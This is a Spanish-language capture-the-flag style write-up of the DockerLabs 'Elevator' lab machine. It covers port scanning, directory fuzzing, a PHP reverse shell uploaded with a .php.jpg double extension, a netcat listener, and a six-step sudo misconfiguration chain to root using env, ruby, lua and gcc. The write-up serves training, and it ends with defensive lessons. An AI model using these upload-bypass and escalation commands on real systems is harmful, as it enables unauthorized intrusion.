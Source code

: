# Informe de Pentesting – Máquina Vulnerable *Elevator*

![Logo](/Elevator/Imagenes/Logo.png)

## Descripción General

Se descarga la máquina vulnerable *Elevator* desde la plataforma DockerLabs. El archivo comprimido se descomprime con:

```bash
unzip elevator.zip
```

Luego, se despliega la máquina con el script proporcionado:

```bash
sudo bash auto_deploy.sh elevator.tar
```

---

## 1. Verificación de Conectividad

Se comprueba que la máquina está activa y accesible mediante un *ping*:

```bash
ping -c4 172.17.0.2
```

![Ping](/Elevator/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento

### 2.1 Escaneo de Puertos

Se realiza un escaneo completo de puertos para identificar servicios accesibles:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos](/Elevator/Imagenes/Puertos.jpeg)

Resultado: solo se encuentra el puerto 80 (HTTP) abierto.

Se extraen los puertos válidos con el script personalizado:

```bash
extractPorts allPorts.txt
```

### 2.2 Escaneo Avanzado

Con el puerto 80 confirmado, se realiza un escaneo con detección de versiones y scripts comunes:

```bash
nmap -sCV -p 80 172.17.0.2 -oN target.txt
```

Este comando permite detectar:

* Versiones de software del servidor web
* Posibles vulnerabilidades expuestas
* Archivos robots.txt u otros que den pistas

---

## 3. Análisis Web

Se accede al servicio web vía navegador, pero no se encuentra nada llamativo a simple vista.

![Página Principal](/Elevator/Imagenes/Pagina.jpeg)

---

## 4. Fuzzing y Enumeración de Directorios

Se realiza fuzzing con *Gobuster* para descubrir rutas ocultas:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](/Elevator/Imagenes/Fuzzing.jpeg)

Se descubren dos directorios, entre ellos `/themes`. Se hace fuzzing adicional sobre esa ruta:

```bash
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

---

## 5. Descubrimiento de Funcionalidad Vulnerable

Se identifica la ruta `http://172.17.0.2/themes/archivo.html`, la cual permite subir archivos `.jpg`.

![Subida](/Elevator/Imagenes/Subir.jpeg)

También se encuentra:

* `http://172.17.0.2/themes/uploads/` → directorio donde se listan las imágenes subidas
* `http://172.17.0.2/themes/upload.php` → script encargado del upload

![Directorio Uploads](/Elevator/Imagenes/Directorio.jpeg)

---

## 6. Explotación – Reverse Shell

### 6.1 Preparación del Payload

Se crea una reverse shell PHP con doble extensión `.php.jpg` para evadir filtros de tipo MIME:

```php
nano php_reverseshell.php.jpg
```

![Reverse Shell GitHub](/Elevator/Imagenes/Gitrevershell.jpeg)
![Tricks](/Elevator/Imagenes/tricks.jpeg)

> ⚠️ Esta técnica funciona cuando el servidor evalúa el archivo por su contenido real y no solo por la extensión.

El archivo se sube con éxito:

![Archivo Subido](/Elevator/Imagenes/Archivo.jpeg)
![Subida Exitosa](/Elevator/Imagenes/Subida.jpeg)

### 6.2 Ejecución del Payload

Antes de ejecutar el archivo, se escucha en el puerto especificado dentro del script PHP:

```bash
sudo nc -lvnp 443
```

![Escucha](/Elevator/Imagenes/Escucha.jpeg)

Al acceder al archivo desde el navegador, se ejecuta la reverse shell y se obtiene acceso como `www-data`.

---

## 7. Escalada de Privilegios

### Cadena de Escalada:

1. **www-data → daphne**
   Puede ejecutar `/usr/bin/env` como `daphne` sin contraseña:

   ```bash
   sudo -u daphne /usr/bin/env /bin/bash
   ```

2. **daphne → vilma**
   `daphne` tiene permiso para ejecutar `ash` como `vilma`:

   ```bash
   sudo -u vilma /usr/bin/ash
   ```

3. **vilma → shaggy**
   `vilma` puede usar `ruby`:

   ```bash
   sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
   ```

4. **shaggy → fred**
   `shaggy` tiene permiso sobre `lua`:

   ```bash
   sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
   ```

5. **fred → scooby**
   `fred` puede ejecutar `gcc` con el wrapper:

   ```bash
   sudo -u scooby /usr/bin/gcc -wrapper /bin/bash,-s .
   ```

6. **scooby → root**
   `scooby` puede usar `sudo` como root directamente:

   ```bash
   sudo -u root /usr/bin/sudo su
   ```

![Intrusión](/Elevator/Imagenes/Intrusion.jpeg)
![Escalada](/Elevator/Imagenes/Escalada.jpeg)

---

## 8. Conclusión

Esta máquina representa un excelente ejemplo de cómo múltiples configuraciones incorrectas en `sudoers` pueden llevar a una escalada completa de privilegios, incluso cuando se comienza con un acceso mínimo desde una web shell.

Se destacan los siguientes problemas de seguridad:

* Falta de validación de contenido real en el sistema de subida de archivos.
* Configuración permisiva de múltiples usuarios con permisos `NOPASSWD`.
* Encadenamiento de privilegios entre usuarios sin control ni segmentación.
